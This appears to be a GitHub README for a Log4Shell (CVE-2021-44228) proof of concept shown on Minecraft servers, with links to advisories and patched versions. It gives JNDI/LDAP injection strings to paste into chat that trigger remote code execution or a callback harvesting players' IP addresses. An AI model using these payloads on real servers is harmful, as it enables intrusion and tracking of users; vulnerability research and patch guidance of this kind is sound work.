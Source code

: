 # Log4J-RCE-Proof-Of-Concept (CVE-2021-44228)

This is a proof of concept of the log4j rce.

Here are some links for the CVE-2021-44228:
- https://www.lunasec.io/docs/blog/log4j-zero-day
- https://github.com/advisories/GHSA-jfh8-c2jp-5v3q
- https://github.com/apache/logging-log4j2/pull/608
- https://www.youtube.com/watch?v=JPGola6BamU

This bug affects nearly all log4j2 and maybe log4j1 versions. The recommended version to use is **[2.15.0](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.15.0)** which fixes the exploit.

## Demonstration with minecraft (which uses log4j2)

- Details for the impact on minecraft are listed here: https://twitter.com/slicedlime/status/1469150993527017483
- Article from minecraft is here: https://www.minecraft.net/en-us/article/important-message--security-vulnerability-java-edition
- Fixed minecraft forge versions: https://twitter.com/gigaherz/status/1469331288368861195
- Detailed article from minecraft forge: https://gist.github.com/TheCurle/f15a6b63ceee3be58bff5e7a97c3a4e6
- Fixed minecraft fabric versions: https://twitter.com/slicedlime/status/1469192689904193537
- Fixed minecraft paper versions: https://twitter.com/aurora_smiles_/status/1469205803232026625
- Fixed minecraft spigot versions: https://www.spigotmc.org/threads/spigot-security-releases-%E2%80%94-1-8-8%E2%80%931-18.537204/
- Fixed minecraft sponge versions: https://discord.com/channels/142425412096491520/303772747907989504/918744598065586196

### Lag or sending serialized data 

- Paste ``${jndi:ldap://127.0.0.1/e}`` in the chat. If there is an open socket on port ``389`` logj4 tries to connect and blocks further communiction until a timeout occurs.
- When using this proof of concept exploit, the log in the console will log ``THIS IS SEND TO THE LOG!!! LOG4J EXPLOIT!`` which is a serialized string object from the ldap server.

![image](https://user-images.githubusercontent.com/7681220/145529175-b6f88cf0-67d0-450b-a834-87942202d594.png)

- Additionally the malicious ldap server receives every ip address where the message is logged. This means that ip adresses of players on a server can be collected which this exploit.

### RCE

- Paste ``${jndi:ldap://127.0.0.1/exe}`` in the chat. If ``-Dcom.sun.jndi.ldap.object.trustURLCodebase=true`` is set to true the remote code execution will happen.

![image](https://user-images.githubusercontent.com/7681220/145529797-a3952c3e-c81e-4e91-b383-490688736f9c.png)

- Fortunately modern jdks disable remote class loading by default. (https://www.oracle.com/java/technologies/javase/8u121-relnotes.html)
- Old versions may still allow this!!


 
